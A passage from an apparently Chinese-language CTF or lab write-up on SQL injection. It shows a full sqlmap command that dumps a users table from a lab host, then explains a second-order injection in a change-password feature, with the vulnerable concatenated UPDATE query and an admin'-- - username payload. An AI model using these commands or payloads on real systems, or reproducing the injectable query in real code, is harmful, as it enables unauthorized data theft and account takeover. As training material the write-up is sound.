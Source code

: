 *****最后增加“ **-T 用户—转储**”*****

```
*****sqlmap --tamper so-tamper.py --url [http://10.10.224.106:5000/challenge4/signup](http://10.10.224.106:5000/challenge4/signup) --data "username=admin&password=asd" --second-url [http://10.10.224.106:5000/challenge4/notes](http://10.10.224.106:5000/challenge4/notes) -p username --dbms=sqlite --technique=U --no-cast **-T users --dump*******
```

*****![](img/87fb5c2bf0f2037771c1dbb91319b5d5.png)*****

# *****任务 8:易受攻击的启动:更改密码*****

# *****目标*****

*****对于此挑战，注释页面上的漏洞已被修复。新的更改密码功能已经添加到应用程序中，因此用户现在可以通过导航到配置文件页面来更改他们的密码。新函数容易受到 SQL 注入攻击，因为 UPDATE 语句将用户名直接连接到 SQL 查询中，如下所示。这里的目标是利用易受攻击的功能来获取管理员帐户的访问权限。*****

# *****描述*****

*****开发人员为密码参数使用了一个占位符，因为该输入直接来自用户。用户名不是直接来自用户，而是根据存储在会话对象中的用户 id 从数据库中获取。因此，开发人员认为使用用户名是安全的，并将其直接连接到查询中，而不是使用占位符:*****

```
*****UPDATE users SET password = ? WHERE username = '" + username + "'*****
```

*****为了利用这个漏洞并获得管理员用户帐户的访问权限，我们可以创建一个名为`admin'-- -`的用户。*****

*****注册恶意用户后，我们可以更新新用户的密码来触发漏洞。更改密码时，应用程序执行两个查询。首先，它向数据库询问我们当前用户的用户名和密码:*****

```
*****SELECT username, password FROM users WHERE **id** = ?*****
```
